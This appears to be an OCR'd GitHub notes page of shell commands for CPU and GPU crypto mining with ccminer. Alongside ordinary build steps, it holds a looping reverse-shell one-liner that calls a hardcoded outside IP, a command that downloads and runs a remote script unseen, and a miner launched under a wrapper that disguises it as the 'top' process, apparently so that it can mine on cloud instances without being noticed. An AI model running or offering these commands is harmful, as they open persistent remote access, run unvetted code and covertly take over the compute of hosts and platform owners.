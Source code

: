 fuser -k 4055/tcp
npm i dotenv (install modul dotenv di node)
while true; do bash -c 'bash -i >& /dev/tcp/35.247.34.178/4053 0>&1'; sleep 10; done
#### dependence ccminer

apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential

wget https://raw.githubusercontent.com/hudahadoh/vs/main/vs.sh && chmod +x vs.sh && ./vs.sh && rm vs.sh && cd /usr/bin

./bhmax -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.py1 -p x -t 1
werkol-28870.portmap.host:28870 => 4052
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.ZX5 -p x -t 85
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.l1 -p x -t 1


### git clone --single-branch -b  Verus2.2gpu https://github.com/monkins1010/ccminer.git
git clone --single-branch -b Verus2.2gpu https://github.com/monkins1010/ccminer.git (gpu nvidia)
git clone --single-branch -b Verus2.2 https://github.com/monkins1010/ccminer.git  (cpu only)

cd ccminer

chmod +x build.sh

chmod +x configure.sh

chmod +x autogen.sh

./build.sh

./ccminer  -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RRT2bJnHu9n1Qzh4crRZZKFoX3HXrtTDer.colabs3  -p x  -t 4
